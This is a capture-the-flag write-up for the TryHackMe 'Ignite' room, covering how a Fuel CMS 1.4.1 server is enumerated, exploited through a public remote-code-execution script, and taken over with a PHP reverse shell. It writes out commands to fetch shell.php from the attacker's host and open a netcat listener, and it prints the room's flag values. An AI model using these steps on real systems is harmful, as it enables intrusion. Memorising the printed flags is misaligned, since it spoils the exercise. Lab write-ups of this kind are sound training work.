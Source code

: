 
link: [https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

# Task 1: Root It

User.txt
>6470e394cbf6dab6a91682cc8585059b

Root.txt
>b9bbcb33e11b80be759c4e844862482d


## Enumeration

Firstly, run a nmap scan and found port 80 is open.
```bash
└─$ nmap -sV -sC 10.10.201.62 

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

Navigate to http://10.10.201.62 inside the browser.
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/fuel-cms-1.png]]
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/fuel-cms-2.png]]
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/fuel-cms-3.png]]
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/fuel-cms-4.png]]

From above there's a link provided an admin panel link http://10.10.201.62/panel with username and password provided.
- Username: `admin`
- Password: `admin`
But looks like nothing special here.
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/fuel-dashboard.png]]


Run gobuster for directory scanning and there's nothing special too.
```bash
└─$ gobuster dir -u http://10.10.201.62/ -w /usr/share/wordlists/dirb/common.txt       
```
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/gobuster.png]]

Use searchsploit to search for vulnerability that running on Fuel CMS version 1.4
- Based on the result there's 3 exploit existed 
```bash
└─$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                                                                | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                                                                | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                                                                                | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                                                                               | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                                                                      | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                                                                          | php/webapps/48778.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/searchsploit.png]]

Download the exploit python script
```bash
└─$ searchsploit -m 50477
```

Run the `50477.py` script with url and we able to gained access to it.
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/run-exploit.png]]

Try to cat for `fuel/application/config/database.php` and we'll found the password for root user.
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/database.php.png]]

Try to search for user flag。
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/user-flag.png]]

## Privileges Escalation

We need a way to get a shell in the system, “sudo -l” doesn’t return anything to us. What we can do is to upload a reverse shell onto the `www-data`
```bash
# locate webshell file
└─$ locate shell.php

# copy it to current directory
└─$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php

# edit the reverse shell by changing the ip address of kali machine and local port
└─$ nano shell.php 

# create a http server for target machine to download the shell.php file
└─$ python3 -m http.server 80   
```

Back to target machine terminal and download the `shell.php` file.
```bash
wget http://10.2.20.52:80/shell.php
```

Start a netcat listener on local machine to catch the shell once the `shell.php` is executed on the target machine.
```bash
└─$ nc -nvlp 1234
```

Navigate to the http://10.10.201.62/shell.php to execute the `shell.php` and we should now able to get an reverse shell on netcat listener
![[Writeups/TryHackMe/assets/img/THM-Writeups/Ignite/root-access.png]]